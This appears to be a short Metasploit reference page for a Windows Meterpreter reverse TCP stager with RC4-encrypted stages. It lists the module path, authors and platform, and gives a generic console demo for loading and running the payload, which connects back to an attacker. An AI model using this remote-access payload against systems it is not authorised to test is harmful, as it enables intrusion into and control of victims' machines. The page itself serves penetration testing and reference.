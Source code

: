 ## Windows Meterpreter (skape/jt Injection), Reverse TCP Stager (RC4 Stage Encryption)

Inject the meterpreter server DLL (staged). Connect back to 
the attacker


## Module Name
payload/windows/patchupmeterpreter/reverse_tcp_rc4

## Authors
* skape
* jt <jt@klake.org>
* hdm
* sf
* mihi





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/patchupmeterpreter/reverse_tcp_rc4
msf payload(reverse_tcp_rc4) > show targets
   ... a list of targets ...
msf payload(reverse_tcp_rc4) > set TARGET <target-id>
msf payload(reverse_tcp_rc4) > show options
   ... show and set options ...
msf payload(reverse_tcp_rc4) > run
```
    
    